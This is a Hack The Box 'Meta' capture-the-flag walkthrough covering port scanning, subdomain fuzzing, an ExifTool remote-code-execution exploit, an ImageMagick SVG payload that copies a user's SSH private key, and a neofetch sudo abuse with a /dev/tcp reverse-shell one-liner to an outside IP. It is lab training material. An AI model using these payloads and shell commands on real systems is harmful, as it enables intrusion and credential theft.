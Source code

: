 ```yaml
---
title: Meta
date: 2021-03-14
tags:
  - HTB Writeup
---
```


![Meta](./meta.png)

## Introduction

### Scanning and Enumeration of Open Ports (Using Nmap)

##### Nmap Service Scanning

```
➜  HTB git:(master) ✗ nmap -Pn -sV -sC 10.10.11.140

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-15 12:33 IST
Nmap scan report for 10.10.11.140
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (EdDSA)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.71 seconds
```

We can see a Http server running on Port 80 and ssh service running on port22.

### Checking on port 80:

We got the site url : ```artcorp.htb```

Open ```/etc/hosts``` file and add ```10.10.11.140    artcorp.htb```
```
sudo nano /etc/hosts
```

Nothing seems interesting on the website.Lets do a subdomain fuzz using ```ffuf```.I used the following [wordlist.](https://github.com/danielmiessler/SecLists)

```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://artcorp.htb/ -H "Host:http://FUZZ.artcorp.htb" -mc all -fc 404,400

```

Yep, found a subdomain ```dev01```.

Open ```/etc/hosts``` file and add ```10.10.11.140    dev01.artcorp.htb```
```
sudo nano /etc/hosts
```

We got a web interface of ```MetaView.``` Uploading a random file gave
![metaview](./metaview.png)
Uploading a jpg/png file gave:

![jpg](./content.png)

Hmmm...this output looks familiar.```Exiftool``` is used for reading, writing and editing meta information in a wide variety of files.
Lets check the output of Exiftool on our local machine.

```
➜  Meta git:(master) ✗ exiftool image.jpg   
ExifTool Version Number         : 10.80
File Name                       : image.jpg
Directory                       : .
File Size                       : 46 kB
File Modification Date/Time     : 2022:03:16 12:22:06+05:30
File Access Date/Time           : 2022:03:16 12:22:51+05:30
File Inode Change Date/Time     : 2022:03:16 12:22:06+05:30
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Y Cb Cr Positioning             : Centered
Image Width                     : 750
Image Height                    : 467
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 750x467
Megapixels                      : 0.350

```

Yep we are on the right track. The web interface is using Exiftool to give info of jpg/png files.

## Exiftool | Reverse Shell
Lets search for any vulnerabilities of Exiftool.Found some info here. [Vulnerability](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/).
This enabled a malicious actor to perform a Remote code Execution attack.Let's exploit it.

Found the exploit [here](https://github.com/convisolabs/CVE-2021-22204-exiftool). Download the exploit.py,configfile and image.jpg.

* Change the port and ip in exploit.py
* Run command ```python3 exploit.py```
* Open up a listener on the above port ```nv -nvlp <port-no>```

This will generate a malicious image file. Upload it in the metaview web-interface.Yeah,we got the Reverse Shell.

```
$ whoami
www-data

$ pwd
/var/www/dev01.artcorp.htb/metaview


$ cd /home
$ ls
thomas

```

We have one user thomas.

## User Privilege

Running [LinPeAs](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to get system information.

Found this interesting info:

```
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
/usr/local/bin/convert_images.sh
/usr/bin/gettext.sh
```

Migrating and seeing the content of the files:

convert_images.sh
```
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

It uses mogrify. Lets do some research and find its vulnerabilities(if any). It is similar to ImageMagick tool and used for
the same purpose.Found one interesting thing [here](https://www.exploit-db.com/exploits/39767). It has CVE-2016-3714 - Insufficient shell characters
 filtering leads to (potentially remote) code execution.

Lets exploit it.

If we look properly ```convert_images.sh``` file migrates to /var/www/dev01.artcorp.htb/convert_images/ and execute mogrify 
on all the files present in the directory. So lets create a .svg file as described [here](https://www.exploit-db.com/exploits/39767).

We also see that there is .ssh folder in /home/thomas which we can't access.Lets try to access that folder using our .svg file.

1. Save this file in /var/www/dev01.artcorp.htb/convert_images/ with .svg extension.

```
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa) > /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

2. Migrate to /usr/local/bin and execute convert_images.sh

3. Go to /dev/shm and you will find ```id_rsa``` file with user as thomas.

```
$ ls -al
total 4
drwxrwxrwt  2 root   root     60 Mar 24 04:14 .
drwxr-xr-x 16 root   root   3080 Mar 24 02:02 ..
-rw-r--r--  1 thomas thomas 2590 Mar 24 04:14 id_rsa
```

Store the content of id_rsa in local file and used it to ssh as thomas and read the flag.

## System Own

Let's check if we have any commands to run as sudo user.

```
sudo -l 
```

```
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"

```

This shows that user thomas can run ```neofetch command``` as sudo without any password.

Searched if neofetch can be used to get reverse shell and found some relevant info [here](https://gtfobins.github.io/gtfobins/neofetch/#sudo)

There was a .config folder in thomas home directory. Found neofetch config file there. 
Now I added a reverse shell command at the starting of the file.

```
/bin/bash -c "bash &>/dev/tcp/10.10.16.11/4444 <&1"
```

I want that if I run neofetch that it uses this config file I have changed. So for that I changed the base path
to load config file by the following command.

```
export XDG_CONFIG_HOME=/home/thomas/.config
```
#
```
which neofetch 
/usr/bin/neofetch
```

So I opened a listener at my local system and ran the following command from meta.

```
sudo -u root /usr/bin/neofetch
```

and Yipee got the root shell.